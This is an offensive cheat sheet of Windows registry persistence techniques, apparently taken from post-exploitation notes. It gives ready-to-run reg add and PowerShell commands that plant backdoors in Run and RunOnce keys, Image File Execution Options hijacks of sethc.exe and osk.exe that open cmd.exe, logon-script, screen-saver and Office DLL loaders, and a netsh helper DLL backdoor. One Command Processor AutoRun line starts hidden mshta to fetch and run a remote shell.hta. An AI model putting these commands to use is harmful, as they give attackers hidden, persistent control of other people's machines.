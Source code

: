 # Registry Keys

## 01 - Manual

### 1.1 - Registry Key Values

#### 1.1.1 - Registry key values both command prompt and powershell

|reg.exe|Set-ItemProperty|DataType in .reg|
|-------|----------------|----------------|
|REG_SZ|String||
|REG_EXPAND_SZ|ExpandString|hexadecimal(2)|
|REG_DWORD|DWord|dword|
|REG_QWORD|QWord|qword|
|REG_MULTI_SZ|MultiString|hexadecimal(7)|
|REG_BINARY|Binary|hexadecimal|

```
C:\> reg import file.reg

C:\> reg add "hklm\software\microsoft\windows\currentversion\run" /v <value> /t reg_sz /d "C:\path\to\shell.exe" /f
```

```powershell
PS C:\> set-itemproperty -path "hklm:\software\microsoft\windows\currentversion\run" -name "<value>" -propertytype string -value "C:\path\to\shell.exe" -force
```

### 1.2 - Registry Backdoors

#### 1.2.1 - HKLM

##### 1.2.1.1 - Syntax

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\run" /v <value> /t reg_sz /d "rundll32.exe C:\path\to\shell.dll,ExecDLL" /f`

##### 1.2.1.2 - Registry Paths

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce" /v UpdateOnce /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices" /v WindowsService /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v UpdateSVC /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v Dependency /t REG_SZ /d "C:\path\to\shell.dll"
```

##### 1.2.1.3 - Image File Execution Options

- Sticky Keys

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

- Accessibility On-Screen Keyboard

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

- Notepad

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\shell.exe"`

##### 1.2.1.4 - COM Hijacking

TODO: Fill this info

#### 1.2.2 - HKCU

##### 1.2.2.1 - Registry Paths

```
C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Image /t REG_SZ /d "powershell.exe -ep bypass -w hidden -nologo -NonI -f C:\path\to\shell.ps1" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" WindowsUpdate /t REG_SZ /d "rundll32.exe C:\path\to\shell.dll,ExecuteShell" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "powershell.exe Start-Process -windowstyle hidden -FilePath mshta.exe http://<IP>/shell.hta" /f
```

##### 1.2.2.2 - LogonScript

`C:\> reg add "HKCU\Environment" /v UserInitMprLogonScript /d "C:\path\to\shell.bat" /t REG_SZ /f`

##### 1.2.2.3 - Screen Saver

```
C:\> reg add "HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

##### 1.2.2.4 - Microsoft Office

`C:\> reg add "HKCU\SOFTWARE\Microsoft\Office Test\Special\Perf" /t REG_SZ /d "C:\path\to\shell.dll" /f`

##### 1.2.2.5 - COM Hijacking

TODO: Fill this info

#### 1.2.3 - Netsh Backdoor

```
C:\> reg add "hklm\software\microsoft\windows\currentversion\run" /v "Firewall Rules Persist" /t reg_sz /d "C:\Windows\System32\netsh" /f

C:\> netsh add helper C:\path\to\shellDLL.dll

C:\> netsh

netsh> add helper C:\path\to\shellDLL.dll
```

- To cleanup the backdoor

```
C:\> netsh delete helper C:\path\to\shell.dll

C:\> netsh

netsh> delete helper C:\path\to\shell.dll

C:\> reg delete "HKLM\SOFTWARE\Microsoft\NetSh" /v shellDLL /f
```

## 02 - SharPersist

TODO: Fill this info

---
## References

- [[Windows Post Exploitation Persistence References]]